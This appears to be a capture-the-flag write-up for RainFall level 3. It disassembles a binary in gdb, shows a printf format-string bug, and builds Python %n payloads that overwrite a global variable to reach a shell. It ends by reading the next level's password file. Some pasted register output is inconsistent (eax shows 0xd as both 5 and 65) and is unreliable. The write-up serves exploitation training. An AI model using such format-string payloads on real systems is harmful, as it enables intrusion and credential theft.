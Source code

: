 # Level3

    (gdb) disas main
    Dump of assembler code for function main:
        0x0804851a <+0>:	push   %ebp
        0x0804851b <+1>:	mov    %esp,%ebp
        0x0804851d <+3>:	and    $0xfffffff0,%esp
        0x08048520 <+6>:	call   0x80484a4 <v>
        0x08048525 <+11>:	leave  
        0x08048526 <+12>:	ret    
    End of assembler dump.
    (gdb) disas v
    Dump of assembler code for function v:
        0x080484a4 <+0>:	push   %ebp
        0x080484a5 <+1>:	mov    %esp,%ebp
        0x080484a7 <+3>:	sub    $0x218,%esp
        0x080484ad <+9>:	mov    0x8049860,%eax
        0x080484b2 <+14>:	mov    %eax,0x8(%esp)
        0x080484b6 <+18>:	movl   $0x200,0x4(%esp)
        0x080484be <+26>:	lea    -0x208(%ebp),%eax
        0x080484c4 <+32>:	mov    %eax,(%esp)
        0x080484c7 <+35>:	call   0x80483a0 <fgets@plt>
        0x080484cc <+40>:	lea    -0x208(%ebp),%eax
        0x080484d2 <+46>:	mov    %eax,(%esp)
        0x080484d5 <+49>:	call   0x8048390 <printf@plt>
        0x080484da <+54>:	mov    0x804988c,%eax
        0x080484df <+59>:	cmp    $0x40,%eax
        0x080484e2 <+62>:	jne    0x8048518 <v+116>
        0x080484e4 <+64>:	mov    0x8049880,%eax
        0x080484e9 <+69>:	mov    %eax,%edx
        0x080484eb <+71>:	mov    $0x8048600,%eax
        0x080484f0 <+76>:	mov    %edx,0xc(%esp)
        0x080484f4 <+80>:	movl   $0xc,0x8(%esp)
        0x080484fc <+88>:	movl   $0x1,0x4(%esp)
        0x08048504 <+96>:	mov    %eax,(%esp)
        0x08048507 <+99>:	call   0x80483b0 <fwrite@plt>
        0x0804850c <+104>:	movl   $0x804860d,(%esp)
        0x08048513 <+111>:	call   0x80483c0 <system@plt>
        0x08048518 <+116>:	leave  
        0x08048519 <+117>:	ret    
    End of assembler dump.

The main simply calls the v function. It prints back the characters read from the stdin with printf.

We can also see a check that will run a shell if the value is set to 0x40 (hex) / 64 (dec), but we can't interact with it directly.

However, there is no formatted string during the printf call, the argument is instead passed directly to printf (cf source file). This is a vulerability that we can exploit to change the value being compared above.

With a specific input, we can print the content of the stack : 

    level3@RainFall:~$ ./level3
    AAAA BBBB %x %x %x %x %x %x %x %x %x %x
    AAAA BBBB 200 b7fd1ac0 b7ff37d0 41414141 42424220 78252042 20782520 25207825 78252078 20782520

We see that the 4th %x prints the beginning of our input. A very interesting printf modifier is %n. This modifier won't print anything, but will store the length of the string in the pointed location. And this location must be a pointer to a signed int. Luckily for us, a memory address can be used.

If we go back to the v function :

    [...]
        0x080484da <+54>:	mov    0x804988c,%eax
        0x080484df <+59>:	cmp    $0x40,%eax
    [...]

This code will move the value stored in 0x0804988c to the EAX register, then compare this register with the value 0x40. That means, if we can manually set the value stored in 0x804988c to 0x40, the check will succeed and we'll be able to run the shell.

First of all, let's send the address above to see if our idea works.

    $ python -c 'print "\x8c\x98\x04\x08"+"%4$n"' > payload

The syntax '%4$n' will change the 4th value without having to use the previous ones, since we only want to change this one.
We set a breakpoint right after the printf call, to see if we successfully overflowed the register :

    (gdb) b *0x080484da
    Breakpoint 1 at 0x80484da
    (gdb) run < payload 
    Starting program: /home/user/level3/level3 < payload
    �

    Breakpoint 1, 0x080484da in v ()
    (gdb) i r
    eax            0xd	5
    ecx            0x0	0
    edx            0x0	0
    ebx            0xb7fd0ff4	-1208152076
    esp            0xbffff510	0xbffff510
    ebp            0xbffff728	0xbffff728
    esi            0x0	0
    edi            0x0	0
    eip            0x80484da	0x80484da <v+54>
    eflags         0x200282	[ SF IF ID ]
    cs             0x73	115
    ss             0x7b	123
    ds             0x7b	123
    es             0x7b	123
    fs             0x0	0
    gs             0x33	51

Our string was 5 characters long (%4$n is a modifier but is included as well, however it won't count in the end for some reason), and we got a value of 5. To have a size of 64 (without %4$n), we simply need to add 60 more characters.

    $ python -c 'print "\x8c\x98\x04\x08"+"Y"*60+"%4$n"' > payload

Let's check:

    [...]
       Breakpoint 1, 0x080484da in v ()
    (gdb) i r
    eax            0xd	65
    ecx            0x0	0
    edx            0x0	0
    [...]
    (gdb) c
    Continuing.
    Wait what?!
    [Inferior 1 (process 13240) exited normally]

Now we run it without gdb:

    level3@RainFall:~$ cat payload - | ./level3 
    �YYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYY
    Wait what?!
    cd ../level4
    cat .pass
    b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
